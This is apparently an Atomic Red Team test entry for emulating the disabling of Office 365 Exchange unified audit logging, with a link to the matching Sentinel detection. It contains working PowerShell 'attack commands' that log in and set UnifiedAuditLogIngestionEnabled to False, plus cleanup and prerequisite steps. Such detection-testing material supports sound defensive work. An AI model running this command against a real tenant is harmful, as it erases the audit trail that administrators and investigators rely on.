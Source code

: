 
<br/>
<br/>

## Atomic Test #3 - Office 365 - Exchange Audit Log Disabled
You can use the Exchange Management Shell to enable or disable mailbox audit logging for a mailbox.
Unified or Admin Audit logs are disabled via the Exchange Powershell cmdline.
https://github.com/Azure/Azure-Sentinel/blob/master/Detections/OfficeActivity/exchange_auditlogdisabled.yaml

**Supported Platforms:** Office-365


**auto_generated_guid:** 1ee572f3-056c-4632-a7fc-7e7c42b1543c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | office-365 username | string | |
| password | office-365 password | string | |


#### Attack Commands: Run with `powershell`! 


```powershell
$secure_pwd = "#{password}" | ConvertTo-SecureString -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential -ArgumentList "#{username}", $secure_pwd
Connect-ExchangeOnline -Credential $creds
Set-AdminAuditLogConfig -UnifiedAuditLogIngestionEnabled $False
```

#### Cleanup Commands:
```powershell
$secure_pwd = "#{password}" | ConvertTo-SecureString -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential -ArgumentList "#{username}", $secure_pwd
Connect-ExchangeOnline -Credential $creds
Set-AdminAuditLogConfig -UnifiedAuditLogIngestionEnabled $True
```



#### Dependencies:  Run with `powershell`!
##### Description: ExchangeOnlineManagement PowerShell module must be installed
##### Check Prereq Commands:
```powershell
$RequiredModule = Get-Module -Name ExchangeOnlineManagement -ListAvailable
if (-not $RequiredModule) {exit 1}
if (-not $RequiredModule.ExportedCommands['Connect-ExchangeOnline']) {exit 1} else {exit 0}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name ExchangeOnlineManagement         
Import-Module ExchangeOnlineManagement
```
